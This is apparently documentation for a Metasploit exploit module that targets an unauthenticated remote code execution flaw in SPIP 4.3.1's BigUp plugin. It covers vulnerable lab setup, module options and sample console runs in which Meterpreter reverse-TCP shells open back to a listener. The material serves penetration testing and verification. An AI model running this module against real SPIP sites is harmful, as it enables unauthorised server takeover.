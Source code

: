 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in SPIP
versions up to and including 4.3.1, specifically in the BigUp plugin.
The vulnerability occurs due to improper handling of file uploads in the
`lister_fichiers_par_champs` function, which can be exploited by crafting a malicious multipart form request.
This allows an attacker to inject and execute arbitrary PHP code on the server.

### Non-Docker Setup

To replicate a vulnerable environment for testing, follow these steps:

1. Download and set up SPIP version 4.3.1.
2. Use the built-in PHP server to host the SPIP instance.

#### Commands to Set Up the Vulnerable Environment:

```bash
wget https://files.spip.net/spip/archives/spip-v4.3.1.zip
mkdir spip && mv spip-v4.3.1.zip spip
cd spip && unzip spip-v4.3.1.zip
php -S 0.0.0.0:8000
```

- **SPIP Access URL:** `http://localhost:8000`
- **SPIP Version:** 4.3.1

After starting the PHP server, SPIP will be accessible at `http://localhost:8000`.

To complete the installation:

1. Navigate to `http://localhost:8000/ecrire` to access the SPIP web installation panel.
2. Follow the on-screen instructions to complete the setup.

### Docker Setup

To replicate a vulnerable environment for testing, follow these steps:

1. Pull the vulnerable SPIP Docker image:

```bash
docker run --name casse-spip -p 8000:80 \
    -e SPIP_DB_SERVER=sqlite3 \
    -e SPIP_SITE_ADDRESS=http://localhost \
    -d ipeos/spip:4.3.1
```

2. Go to `http://localhost:8000` to access the SPIP application.

## Verification Steps

1. Set up a SPIP instance using the commands provided above.
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/spip_bigup_unauth_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

### FORM_PAGE
This option allows you to specify a custom page on the target SPIP installation that contains a form.
By default, the module will automatically check the `login`, `spip_pass`, and `contact` pages for forms,
but if you know of another page that contains a form, you can specify it here.
For example, if an article page contains a form, you can set this option like so:

```
set FORM_PAGE /spip.php?article1
```

This will instruct the module to look for the form data on `/spip.php?article1`.
If the specified page contains the vulnerable form, the module will proceed with the exploitation.
This option is particularly useful when the default pages (`login`, `spip_pass` and `contact`)
do not contain the form or are not accessible.

## Scenarios

### Successful Exploitation Against Local SPIP 4.3.1

**Setup**:

- Local SPIP instance with version 4.3.1.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module via `use exploit/multi/http/spip_bigup_unauth_rce`
3. Set `RHOSTS` to the local IP (e.g., 127.0.0.1).
4. Configure other necessary options (`TARGETURI`, `SSL`, etc.).
5. Launch the exploit:
```bash
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`:

```bash
msf exploit(multi/http/spip_bigup_unauth_rce) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.3.1
[+] SPIP version 4.3.1 is vulnerable.
[*] Bigup plugin version detected: 3.2.11
[+] The target appears to be vulnerable. Both the detected SPIP version (4.3.1) and bigup version (3.2.11) are vulnerable.
[*] Found formulaire_action: login
[*] Found formulaire_action_args: yt4d8ri/avF6LO/OwLA2O...
[*] Preparing to send exploit payload to the target...
[*] Sending stage (39927 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.17.0.2:54956) at 2024-09-08 05:53:39 +0200

meterpreter > sysinfo 
Computer    : d6c6866cac5a
OS          : Linux d6c6866cac5a 5.15.0-119-generic #129-Ubuntu SMP Fri Aug 2 19:25:20 UTC 2024 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf exploit(multi/http/spip_bigup_unauth_rce) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.3.1
[+] SPIP version 4.3.1 is vulnerable.
[*] Bigup plugin version detected: 3.2.11
[+] The target appears to be vulnerable. Both the detected SPIP version (4.3.1) and bigup version (3.2.11) are vulnerable.
[*] Found formulaire_action: login
[*] Found formulaire_action_args: yt4d8ri/avF6LO/OwLA2O...
[*] Preparing to send exploit payload to the target...
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 172.17.0.2:55956) at 2024-09-08 05:54:43 +0200

meterpreter > sysinfo 
Computer     : 172.17.0.2
OS           : Debian 11.10 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

- The module successfully exploits the vulnerability and opens a Meterpreter session on the target.

**Note**: Ensure the SPIP instance is correctly configured and running using the manual setup for the exploit to work as expected.
